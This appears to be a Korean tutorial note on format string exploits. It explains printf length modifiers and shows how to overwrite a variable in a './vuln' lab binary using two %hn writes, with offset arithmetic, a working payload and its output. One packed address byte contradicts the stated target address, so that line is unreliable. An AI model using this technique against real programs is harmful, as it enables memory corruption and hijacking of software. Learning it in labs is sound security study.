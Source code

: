 <br>

```
길이 수정자는 hh, h, l, ll,j, z, t, L이 있습니다.

hh 는 diouxX가 뒤에 오면 인자를 char 혹은 unsigned char로 변환하여 출력합니다.

h 는 diouxX가 뒤에 오면 인자를 short 혹은 unsigned short로 변환하여 출력합니다.

l 은 뒤에 diouxX가 뒤에 오면 인자를 long 혹은 unsigned long으로 변환하여 출력합니다.

ll 은 뒤에 diouxX가 뒤에 오면 long long 혹은 unsigned long long으로 변환하여 출력합니다.
```

<br>

```printf```에 대한 자세한 내용은 아래 링크에서 확인.

Link : <a href="https://ehpub.co.kr/printf-함수/" target="_blank">ehpub.co.kr/printf-함수/</a>

Link : <a href="https://dojang.io/mod/page/view.php?id=736" target="_blank">dojang.io/mod/page/view.php?id=736</a>

<br>
<br>

따라서 우리는 ```%n```을 short로 쓰고자 하려면 ```%hn``` 포맷 인자를 이용해야 함.

<br>
<br>

short 쓰기를 이용해 4바이트 값을 2개의 ```%hn``` 인자로 덮어쓸 수 있음. 

예를 들어, test_val 변수(```0x08049794```)를 주소 값 ```0xbffffd72```로 덮어쓰면 아래와 같음.

4바이트 값을 2바이트씩 2번에 나눠서 쓰는 것이므로 ```0x08049794```와 ```0x08049796```에 값을 넣어야 하며 ```0x08049794``` 에는 ```0xfd72```를 넣고, ```0x08049796```에는 ```0xbfff```를 넣어야 함.  

<br>

```console
0xfd72 - 8 = 64874          => 주소 값은 총 8바이트 이므로 먼저 넣을 0xfd72에서 8을 뺀 값이 %x의 필드 길이값이 됨.
0xbfff - 0xfd72 = -15731    
0x1bfff - 0xfd72 = 49805    => 0xbfff가 0xfd72보다 작으므로 더 큰 수로 해결한 것


./vuln
$(printf "\x94\x97\x04\x04\x96\x97\x04\x08")
%64874x%4\$hn%49805x%5\$hn


test_val @ 0x08049794 = -1073742478 0xbffffd72
```
